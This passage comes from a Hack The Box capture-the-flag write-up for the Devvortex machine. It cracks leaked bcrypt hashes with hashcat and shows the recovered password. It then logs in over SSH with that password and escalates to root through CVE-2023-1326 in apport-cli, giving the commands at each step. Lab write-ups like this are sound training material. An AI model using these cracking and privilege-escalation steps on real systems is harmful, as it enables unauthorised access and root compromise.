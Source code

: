 ![Pasted image 20240427220108](https://github.com/iammR0OT/HTB/assets/74102381/1e668957-fdfb-428b-82eb-cbea6d0c487c)

There is password hashes stored of both lewis and logan user. Let's save them in a file and crack them using hashcat.

```
lewis : $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan : $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

```bash
$ hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

### Shell as Logan

Now we have both username and password. Lets gain a shell using SSH on the target system

```bash
$ sshpass -p tequieromucho  logan@devvortex.htb
```

![Pasted image 20240427220600](https://github.com/iammR0OT/HTB/assets/74102381/09abd458-d6bd-4e23-846c-316c016cf469)

## Privilege Escalation

Using `sudo -l` we found that the user logan can run apport-cli on the behalf of root user on the box.  The version of **apport-cli** is **2.20.11**

![Pasted image 20240427220832](https://github.com/iammR0OT/HTB/assets/74102381/e50475f0-bc87-44aa-803a-ee37fe42bc7e)

A quick google search reveals the Local privilege Escalation in `apport-cli 2.20.11` **CVE-2023-1326** . [here](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/diego-tella/CVE-2023-1326-PoC&ved=2ahUKEwiHtJz58OKFAxUCSvEDHbv4DO8QFnoECCYQAQ&usg=AOvVaw0iDVPIzIn3FpXEV82pzFjY)

![Pasted image 20240427221158](https://github.com/iammR0OT/HTB/assets/74102381/871a084e-58b9-437a-924d-4a0a9b6c3c6e)

According to the PoC, If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege

### Exploitation

Let's first create a crash file and the give it's path and select **v** to make our exploit work. 

```bash
$ sleep 60 &
$ kill -SIGSEGV  2717
$ sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

![Pasted image 20240427223243](https://github.com/iammR0OT/HTB/assets/74102381/4ce99202-f7af-47ed-b44a-0eff5270293c)
